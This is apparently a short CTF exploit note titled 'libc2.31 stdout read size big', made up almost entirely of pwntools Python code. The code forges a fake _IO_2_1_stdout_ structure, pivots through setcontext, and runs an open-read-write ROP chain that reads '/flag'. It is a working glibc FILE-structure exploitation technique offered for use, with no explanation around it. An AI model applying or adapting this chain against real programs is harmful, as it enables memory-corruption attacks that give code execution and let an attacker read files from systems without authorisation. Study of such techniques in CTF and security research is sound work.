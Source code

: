 ‍

‍

## libc2.31 stdout read size big

‍

```python
fake_IO_addr = libc.sym['_IO_2_1_stdout_']

pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['setcontext'] + 53, # + 61
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: fake_IO_addr,                # rdi  #read fd
    0x70: 0,     # rsi  #read buf
    0x78: fake_IO_addr,     # rsi2  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0x90: 0x400,     # rdx2  #read size
    0x98: 0x23,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['setcontext'] + 87, # RCE2 ogg # or 61+34
    0xb0: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')

#gdb.attach(io,gdbscript)


add(0xe8,pay)




pause()


libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr

orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(orw_rop_addr+0xb8) + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
sl(orw_rop)
```
